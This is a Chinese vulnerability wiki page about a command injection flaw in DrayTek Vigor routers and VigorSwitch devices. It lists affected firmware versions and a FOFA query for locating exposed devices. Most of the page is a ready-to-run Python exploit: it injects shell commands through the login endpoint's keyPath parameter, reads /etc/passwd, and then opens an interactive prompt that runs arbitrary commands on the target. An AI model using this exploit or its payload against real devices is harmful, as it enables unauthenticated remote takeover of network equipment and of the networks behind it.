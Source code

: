 <languages  /> <translate>

漏洞影響
--------

</translate>

    Vigor2960 < v1.5.1

    Vigor300B < v1.5.1

    Vigor3900 < v1.5.1

    VigorSwitch20P2121 <= v2.3.2

    VigorSwitch20G1280 <= v2.3.2

    VigorSwitch20P1280 <= v2.3.2

    VigorSwitch20G2280 <= v2.3.2

    VigorSwitch20P2280 <= v2.3.2

FOFA
----

    title="Vigor 2960"

POC
---

    import requests
    import sys
    import random
    import re
    from requests.packages.urllib3.exceptions import InsecureRequestWarning

    def title():
        print('+------------------------------------------')
        print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
        print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
        print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
        print('+  \033[34mVersion: DrayTek企业网络设备                                        \033[0m')
        print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
        print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
        print('+  \033[36mCmd         >>> pwd                                                \033[0m')
        print('+------------------------------------------')

    def POC_1(target_url):
        vuln_url = target_url + "/cgi-bin/mainfunction.cgi"
        headers = {
            "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        }
        data = "action=login&keyPath=%27%0A%2fbin%2fcat${IFS}/etc/passwd%0A%27&loginUser=a&loginPwd=a"
        try:
            requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
            response = requests.post(url=vuln_url, headers=headers, data=data, verify=False, timeout=5)
            print("\033[32m[o] 正在请求 {}/cgi-bin/mainfunction.cgi \033[0m".format(target_url))
            if "root" in response.text and response.status_code == 200:
                print("\033[32m[o] 目标 {}存在漏洞 ,成功读取 /etc/passwd \033[0m".format(target_url))
                print("\033[32m[o] 响应为:\n{} \033[0m".format(response.text))
                while True:
                    Cmd = input("\033[35mCmd >>> \033[0m")
                    if Cmd == "exit":
                        sys.exit(0)
                    else:
                        POC_2(target_url, Cmd)
            else:
                print("\033[31m[x] 不存在漏洞 \033[0m")
                sys.exit(0)
        except Exception as e:
            print("\033[31m[x] 请求失败 \033[0m", e)
            sys.exit(0)

    def POC_2(target_url, Cmd):
        vuln_url = target_url + "/cgi-bin/mainfunction.cgi"
        headers = {
            "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        }
        Cmd = Cmd.replace(' ','${IFS}')
        data = "action=login&keyPath=%27%0A%2fbin%2f%26{}%0A%27&loginUser=a&loginPwd=a".format(Cmd)
        try:
            requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
            response = requests.post(url=vuln_url, headers=headers, data=data, verify=False, timeout=5)
            if response.status_code == 200:
                print("\033[32m[o] 正在请求 {}/cgi-bin/mainfunction.cgi \033[0m".format(target_url))
                print("\033[32m[o] 响应为:\n{} \033[0m".format(response.text))
        except Exception as e:
            print("\033[31m[x] 请求失败 \033[0m", e)

    if __name__ == '__main__':
        title()
        target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
        POC_1(target_url)